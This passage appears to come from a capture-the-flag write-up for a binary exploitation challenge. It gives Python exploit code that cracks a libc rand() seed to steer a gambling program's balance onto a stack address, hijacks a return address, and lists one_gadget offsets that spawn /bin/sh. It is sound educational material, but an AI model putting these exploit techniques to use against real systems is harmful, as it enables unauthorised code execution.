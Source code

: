```py
    rand()
    rand()


def rand():
    return libc_obj.rand()
```

I technically could've done everything in Python, but C is cool :P Also, note that I have 3 junk calls to rand in my srand function. This is because it takes 3 calls to rand to guess the seed. Now, with a working seed cracker, we can write some code to set our balance exactly to the stack address.

First, I have a small API function to interact with the binary:
```py
def gamble(r, bet, guess):
    r.recvuntil("Your money: ")
    money = int(r.recvuntil(" "))
    r.recvuntil("exit): ")
    r.sendline(str(bet))
    r.recvuntil("choice: ")
    r.sendline(str(guess))
    r.recvuntil("Lucky number: ")
    lucky_num = int(r.recvline())
    return money, lucky_num
```

I use it here to set our balance to stack target.
```py
_, rand1 = gamble(r, 1, 0)
money, rand2 = gamble(r, 1, 0)
log.info("Found two rands: {}, {}".format(rand1, rand2))
seed = find_seed(rand1, rand2)
srand(seed)
log.info("Computed seed: {}".format(seed))

# now we know the next two calls to rand! let's figure out how much we should bet
# how much money we have right now:
# final_money = money - rand() - 1
money -= rand() - 1
# target_money = money + bet + rand()
# bet = target_money - money - rand()
lucky_number = rand()
bet = stack_target - money - rand()
_, _ = gamble(r, bet, lucky_number)
```
Finally, we have control over the feedback pointer! Now, whatever we provide as feedback will be our return address in the `handler` function.

## Code Execution
This part is simple. I use one_gadget to generate some potential gadgets:
```
[slopey@mariner Warmup]$ one_gadget libc-2.23.so
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0364 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1207 execve("/bin/sh", rsp+0x70, environ)
```